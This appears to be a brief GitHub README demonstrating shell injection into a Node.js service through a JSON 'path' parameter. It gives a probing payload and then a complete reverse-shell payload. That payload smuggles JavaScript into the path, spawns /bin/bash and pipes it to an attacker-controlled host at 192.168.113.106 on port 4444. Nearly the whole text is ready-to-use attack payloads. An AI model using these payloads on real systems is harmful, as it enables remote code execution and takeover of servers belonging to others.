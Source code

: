 # Nodejs-Shell-Injection

Concept:

Vulnerable Json Parameters
```
{
"requests":
  [
    {
    "method":"get","path":"/profile;<injected payload>"
      }
  ]
}
```

Pre-investigation with BurpSuite
```
{
"requests":
  [
    {
    "method":"get","path":"/profile;console.log('INJECTED PAYLOAD');"
      }
  ]
}
```

Inject Reverse Nodejs Shell

```
{
"requests":
  [
    {
    "method":"get","path":"/profile;var net = require('net'),sh = require('child_process').exec('\\x2fbin\\x2fbash'); var client = new net.Socket();client.connect(4444, '192.168.113.106', function() {client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});"
      }
  ]
}
```
